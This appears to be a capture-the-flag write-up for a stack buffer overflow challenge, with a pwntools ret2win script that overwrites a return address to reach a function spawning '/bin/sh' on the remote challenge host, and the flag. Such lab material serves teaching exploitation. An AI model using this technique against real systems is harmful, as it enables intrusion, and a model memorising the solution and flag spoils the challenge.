

## Challenge Description

```
Crownspire's fire-watch has one bell pattern that clears a street faster than any order could: three short tolls, a pause, then two long ones, the call for a granary fire, when every free hand is expected to run for water instead of standing post. Rin got the pattern out of a watchman who'd had one drink too many. She doesn't need the gate garrison dead or even distracted for long, just gone, for exactly as long as it takes Keir's wagon to cross from the tannery gate to the river road with cargo nobody's supposed to see. The door to the bell tower wasn't built to keep strangers out. It was built to keep whoever's already inside from leaving on their own terms, which tells her plenty about who usually comes through here. She has one chance to get past it before that wagon reaches the river road. Get the pattern wrong, or ring it a beat late, and every guard in earshot will know there's no fire while Keir's cargo sits exposed in the open street. Breach the lock, climb to the bell, and ring the toll exactly as she memorized it, then get out before anyone starts asking why the granary isn't burning.
```

---

## Initial Recon

We receive a single binary:

```
$ pwn checksec ring_the_bell
[*] '/root/CTF/HTB/CA2026/pwn/Ring_the_bell/ring_the_bell'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:    No
```

No PIE and no canary.

---

## Analysis

Disassembling `main` reveals a buffer overflow vulnerability: `read()` accepts up to 0x60 bytes into a 0x20-byte stack buffer.

```asm
   0x00000000004017f9 <+94>:   lea    rax,[rbp-0x20]
   0x00000000004017fd <+98>:   mov    edx,0x60
   0x0000000000401805 <+106>:  mov    edi,0x0
   0x000000000040180a <+111>:  call   0x401150 <read@plt>
```

There is also a `bell` function that calls `execl("/bin/sh")`:

```asm
   0x000000000040176d <+0>:    endbr64
   0x0000000000401784 <+23>:   lea    rax,[rip+0x8d7]        # "/bin/sh"
   0x0000000000401793 <+38>:   call   0x401190 <execl@plt>
```

This is a ret2win: overflow the return address to redirect execution to `bell`.

---

## Exploit

```python
from pwn import *

io = remote("154.57.164.69", 32232)

padding = b"A" * 40
bell = p64(0x40176d)
payload = padding + bell

io.sendlineafter(b"[Rin]:", payload)
io.interactive()
```

---

## Flag



```
HTB{R1ng4_R1ng4_R1111111nG_cdfd72187a4045a72c31530c2e8aa27c}
```